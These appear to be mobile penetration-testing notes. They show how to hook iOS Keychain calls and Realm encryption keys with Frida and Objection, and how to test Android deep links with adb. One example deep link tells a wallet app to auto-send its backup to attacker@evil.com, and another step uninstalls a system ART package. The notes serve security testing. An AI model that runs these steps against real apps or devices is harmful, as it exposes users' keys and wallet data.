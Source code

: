 
### On **iOS**:

- Use `class-dump` or `frida` to find:
    
    - `SecItemAdd`, `SecItemCopyMatching`
        
    - Any method returning `NSData` of 64 bytes
        
    - `RLMRealmConfiguration` with `encryptionKey` property


#### Working Combo of Frida, Frida-tools, Objection 

**➜**  **tools** frida --version      

16.1.3

**➜**  **tools** objection version    

objection: 1.11.0

**➜**  **tools** pip show frida-tools

Name: frida-tools

Version: 12.1.0

=> Also use objection with the name of the app (instead of the ID if there is a timeout issue) (or the opposite, ID instead of name !)
```
objection -g blabla.myapp.ios explore
objection -g 1232 explore
```

=> objection and frida issue on Android, do the below commands on the Android device:

```
pm uninstall com.google.android.art
reboot
```


### Device Emulators

-> https://www.corellium.com/


#### Hermes Protected Code

-> https://github.com/P1sec/hermes-dec

#### Android Deep Links Testing

```

Run commands in this example format:

adb shell am start -a android.intent.action.VIEW -d "my.testapp.wallet://backup?auto_send=true&email=attacker@evil.com"

Monitor:

adb logcat | grep -i "wallet\|crash\|error"

adb logcat | grep -i "intent\|activity"

```
